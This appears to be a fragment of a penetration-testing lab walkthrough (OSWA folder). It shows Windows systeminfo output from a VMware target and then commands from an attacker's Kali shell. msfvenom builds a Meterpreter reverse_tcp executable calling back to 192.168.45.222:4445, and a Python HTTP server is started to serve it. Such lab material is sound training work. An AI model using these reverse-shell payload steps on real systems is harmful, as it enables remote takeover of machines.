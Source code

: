 ```bash
Original Install Date:     12/14/2021, 2:40:18 AM                                                                                                                                                          
System Boot Time:          5/7/2024, 6:04:20 AM                                                                                                                                                            
System Manufacturer:       VMware, Inc.                                                                                                                                                                    
System Model:              VMware7,1                                                                                                                                                                       
System Type:               x64-based PC                                                                                                                                                                    
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 1 Stepping 2 AuthenticAMD ~3094 Mhz
BIOS Version:              VMware, Inc. VMW71.00V.21100432.B64.2301110304, 1/11/2023
Windows Directory:         C:\Windows     
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume2 
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Coordinated Universal Time
Total Physical Memory:     4,095 MB                                                                  
Available Physical Memory: 1,804 MB                                                                  
Virtual Memory: Max Size:  4,799 MB            
Virtual Memory: Available: 2,533 MB                                                                  
Virtual Memory: In Use:    2,266 MB                                                                  
Page File Location(s):     C:\pagefile.sys                                                                                                                                                                 
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 7 Hotfix(s) Installed.

```
msfvenom payload
```bash
┌──(root💀gobots)-[09Nov2024 03:06:38]-[/home/kali/SUT/OSWA]                                         
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.222 LPORT=4445 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload               
[-] No arch selected, selecting arch: x64 from the payload                                           
No encoder specified, outputting raw payload                                                         
Payload size: 510 bytes                           
Final size of exe file: 7168 bytes                                                                   
Saved as: revshell.exe
```
python3 server
```bash
┌──(root💀gobots)-[09Nov2024 03:06:50]-[/home/kali/SUT/OSWA]
└─# python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```